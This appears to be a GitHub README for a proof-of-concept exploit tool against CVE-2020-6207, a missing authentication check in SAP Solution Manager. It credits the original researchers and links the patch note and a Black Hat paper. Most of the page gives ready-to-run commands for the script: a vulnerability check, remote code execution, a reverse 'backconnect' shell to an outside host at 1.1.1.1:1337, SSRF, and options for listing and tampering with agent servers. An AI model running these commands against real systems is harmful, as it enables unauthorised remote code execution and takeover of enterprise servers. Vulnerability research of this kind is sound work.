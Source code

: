 PoC for **CVE-2020-6207**  (Missing Authentication Check in SAP Solution Manager)  
This script allows to check and exploit missing authentication checks in SAP EEM servlet (`tc~smd~agent~application~eem`) that lead to RCE on SAP SMDAgents connected to SAP Solution Manager  
Original finding: 
- [Pablo Artuso](https://twitter.com/lmkalg)
- [Yvan 'iggy' G](https://twitter.com/_1ggy) 

Paper: [An Unauthenticated Journey to Root :Pwning Your Company's Enterprise Software Servers](https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf)   
Solution: sap note [2890213](https://launchpad.support.sap.com/#/notes/2890213) 

Follow me in Twitter: [@_chipik_](https://twitter.com/_chipik) 

***This project is created only for educational purposes and cannot be used for law violation or personal gain.
<br>The author of this project is not responsible for any possible harm caused by the materials of this project***


# Details

You will find vulnerabilities details in [process](./Process.md) article

# How to use

Just point SAP Solution Manager hostnmae/ip.

## Check

```
➜ python sol-rce.py -H 172.16.30.43 -P 50000 -c
Vulnerable! [CVE-2020-6207] - http://172.16.30.43:50000
```

## Trigger RCE

```
➜ python sol-rce.py -H 172.16.30.43 -P 50000 --rce calc.exe
```

![gif](img/rce.gif) 

## Get BackConnect

```
➜ python sol-rce.py -H 172.16.30.43 -P 50000 --back 1.1.1.1:1337
```

## SSRF 

```
➜ python sol-rce.py -H 172.16.30.43 -P 50000 --ssrf http://1.1.1.1/chpk
```

## Other

There is additional options:
```
➜ python sol-rce.py -h

usage: sol-rce.py [-h] [-H HOST] [-P PORT] [-p PROXY] [-s] [-c] [-d VICTIM]
                  [--ssrf SSRF] [--rce RCE] [--back BACK] [--setup SETUP]
                  [--list] [--clear] [-t TIMEOUT] [-v]

PoC for CVE-2020-6207, (Missing Authentication Check in SAP Solution Manager)
This script allows to check and exploit missing authentication checks in SAP EEM servlet (tc~smd~agent~application~eem) that lead to RCE on SAP SMDAgents connected to SAP Solution Manager
Original finding:
- Pablo Artuso. https://twitter.com/lmkalg
- Yvan 'iggy' G https://twitter.com/_1ggy

Paper: https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf
Solution: https://launchpad.support.sap.com/#/notes/2890213

twitter: https://twitter.com/_chipik

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  SAP Solution Manager host(default: 127.0.0.1)
  -P PORT, --port PORT  SAP Solution Manager web port (default: tcp/50000)
  -p PROXY, --proxy PROXY
                        Use proxy (ex: 127.0.0.1:8080)
  -s, --ssl             enable SSL
  -c, --check           just detect vulnerability
  -d VICTIM, --victim VICTIM
                        DA serverName
  --ssrf SSRF           exploit SSRF. Point http address here. (example:http://1.1.1.1/chpk)
  --rce RCE             exploit RCE
  --back BACK           get backConnect from DA. (ex: 1.1.1.1:1337)
  --setup SETUP         setup a random serverName to the DA with the given hostName and instanceName. (example: javaup.mshome.net,SMDA97)
  --list                Get a list of existing DA servers
  --clear               stop and delete all PoCScript<rnd> scripts from DA servers
  -t TIMEOUT, --timeout TIMEOUT
                        HTTP connection timeout in second (default: 10)
  -v, --verbose         verbose mode
```